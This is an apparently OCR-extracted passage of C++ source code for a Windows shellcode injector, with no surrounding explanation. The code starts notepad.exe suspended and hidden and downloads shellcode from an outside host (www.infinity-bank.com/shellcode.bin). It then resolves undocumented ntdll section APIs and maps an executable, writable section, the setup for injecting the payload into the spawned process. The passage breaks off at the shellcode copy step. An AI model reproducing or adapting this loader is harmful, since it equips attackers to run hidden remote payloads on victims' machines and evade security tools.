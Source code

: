 ```
    startup_info->cb = sizeof(STARTUPINFOW);
    startup_info->dwFlags = STARTF_USESHOWWINDOW;

    // create process info struct
    PPROCESS_INFORMATION process_info = new PROCESS_INFORMATION();

    // null terminated command line
    wchar_t cmd[] = L"notepad.exe\0";

    // create process
    BOOL success = CreateProcess(
        NULL,
        cmd,
        NULL,
        NULL,
        FALSE,
        CREATE_NO_WINDOW | CREATE_SUSPENDED,
        NULL,
        NULL,
        startup_info,
        process_info);

    // download shellcode
    std::vector<BYTE> shellcode = Download(L"www.infinity-bank.com\0", L"/shellcode.bin\0");

    // find Nt APIs
    HMODULE hNtdll = GetModuleHandle(L"ntdll.dll");
    NtCreateSection ntCreateSection = (NtCreateSection)GetProcAddress(hNtdll, "NtCreateSection");
    NtMapViewOfSection ntMapViewOfSection = (NtMapViewOfSection)GetProcAddress(hNtdll, "NtMapViewOfSection");
    NtUnmapViewOfSection ntUnmapViewOfSection = (NtUnmapViewOfSection)GetProcAddress(hNtdll, "NtUnmapViewOfSection");

    // create section in local process
    HANDLE hSection;
    LARGE_INTEGER szSection = { shellcode.size() };

    NTSTATUS status = ntCreateSection(
        &hSection,
        SECTION_ALL_ACCESS,
        NULL,
        &szSection,
        PAGE_EXECUTE_READWRITE,
        SEC_COMMIT,
        NULL);

    // map section into memory of local process
    PVOID hLocalAddress = NULL;
    SIZE_T viewSize = 0;

    status = ntMapViewOfSection(
        hSection,
        GetCurrentProcess(),
        &hLocalAddress,
        NULL,
        NULL,
        NULL,
        &viewSize,
        ViewShare,
        NULL,
        PAGE_EXECUTE_READWRITE);

    // copy shellcode into local memory
```